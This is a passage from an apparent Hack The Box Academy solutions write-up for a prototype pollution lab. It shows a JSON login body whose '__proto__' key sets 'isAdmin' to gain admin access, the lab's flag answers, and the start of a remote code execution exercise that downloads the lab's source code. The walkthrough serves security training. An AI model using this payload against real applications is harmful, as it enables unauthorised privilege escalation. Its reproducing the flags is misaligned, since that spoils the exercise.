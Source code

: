 Code: json

```json
{
  "username": "htb-student",
  "password": "SjN7DCdyjK86uDC",
  "__proto__": {
    "isAdmin": true
  }
}
```

![[HTB Solutions/CWEE/z. images/b63d757074d18e3bb2b82adac9f6a042_MD5.jpg]]

Then, students need to login and visit the admin dashboard over `/admin` to attain the flag `HTB{d87eb495d0d6d7d8db110b7baa70ae40}`:

![[HTB Solutions/CWEE/z. images/009107b80f58c8f8d3569c2e5db9bdeb_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/d239291a9c3098d911c3707c97956509_MD5.jpg]]

Answer: `HTB{d87eb495d0d6d7d8db110b7baa70ae40}`

# Remote Code Execution

## Question 1

### "Try to use what you learned in this section to obtain the flag."

After spawning the target machine, students first need to download [code\_proto\_rce.zip](https://academy.hackthebox.com/storage/modules/205/code_proto_rce.zip) and then unzip it:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/205/code_proto_rce.zip && unzip code_proto_rce.zip
```

```shell
┌─[eu-academy-1]─[10.10.15.75]─[htb-ac-413848@htb-eq5ibex8xa]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/205/code_proto_rce.zip && unzip code_proto_rce.zip

--2023-07-03 11:24:16--  https://academy.hackthebox.com/storage/modules/205/code_proto_rce.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.21.126, 104.18.20.126, 2606:4700::6812:147e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.21.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10673 (10K) [application/zip]
Saving to: ‘code_proto_rce.zip’

code_proto_rce.zip         100%[=====================================>]  10.42K  --.-KB/s    in 0s      

2023-07-03 11:24:17 (57.7 MB/s) - ‘code_proto_rce.zip’ saved [10673/10673]

Archive:  code_proto_rce.zip
  inflating: index.js                
   creating: middleware/
  inflating: middleware/AuthMiddleware.js  
  inflating: package.json            
   creating: routes/
<SNIP>
```